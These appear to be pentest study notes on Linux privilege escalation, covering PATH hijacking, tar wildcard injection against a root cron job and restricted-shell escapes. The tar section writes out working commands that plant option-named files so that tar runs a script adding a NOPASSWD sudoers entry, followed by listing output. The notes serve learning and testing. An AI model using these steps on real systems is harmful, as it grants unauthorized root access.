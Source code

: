 ## [Path](https://www.linfo.org/path_env_var.html)Abuse
```shell
echo $PATH
```
### Adding variables to path 
```shell
PATH=.:${PATH}
$ export PATH
echo $PATH
```

```shell
touch ls
echo 'echo "PATH ABUSE!!"' > ls
chmod +x ls
```

```shell
ls

PATH ABUSE!!
```
## Wildcard Abuse 

| **Character** | **Significance**                                                                                                                                      |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`           | An asterisk that can match any number of characters in a file name.                                                                                   |
| `?`           | Matches a single character.                                                                                                                           |
| `[ ]`         | Brackets enclose characters and can match any single one at the defined position.                                                                     |
| `~`           | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| `-`           | A hyphen within brackets will denote a range of characters.                                                                                           |
### tar
The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached
#### Example Cron
```shell
*/01 * * * * cd /root && tar -zcf /tmp/backup.tar.gz *
```
Leverage the wildcard.
```shell
echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

```shell
ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 cliff.moore cliff.moore    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 cliff.moore cliff.moore    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 cliff.moore cliff.moore   60 Aug 31 23:11 root.sh
```
Once the cronjob runs the wildcard will run :
```shell
backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh root.sh 
```
## Escaping Restricted Shells
* Restricted shell limits the users ability to execute commands. 
* User is only allowed to execute a specific set of commands or only allowed to execute commands in specific directories
### Examples
#### RBASH
**[Restricted Bourne Shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)**
* Can limits the users ability to use certain features of the Bourne Shell, such as changing directories, executing commands etc...
#### RKSH
**[Restricted Korn Shell](https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command)**
* Restricted version of the Korn Shell.
* Can limit the users ability to use certain features of the Korn shell.
#### RZSH
**[Restricted Z Shell](https://manpages.debian.org/experimental/zsh/rzsh.1.en.html)**
* Administrators often use this limit users who may accidentally or intentionally damage the system. 
### Escaping
#### Command Injection
* May be able to inject commands within allowed commands. 
* If you are allowed to use the `ls` binary try:
```shell
ls -l 'pwd'
```
#### Command Substitution
* Using the shells command substitution to execute a command.  
##### Example
* If the shell allows commands executed by enclosing them in backticks:
```
`
```
* It may be possible to escape from the shell by executing a command in a back tick substitution
#### Command Chaining
* Chain commands together with `|` or `;` etc...
#### Environmental Variables
* Modifying or creating environmental variables that the shell uses to execute commands. 
#### Shell functions
* May be possible to call shell function that executes commands. 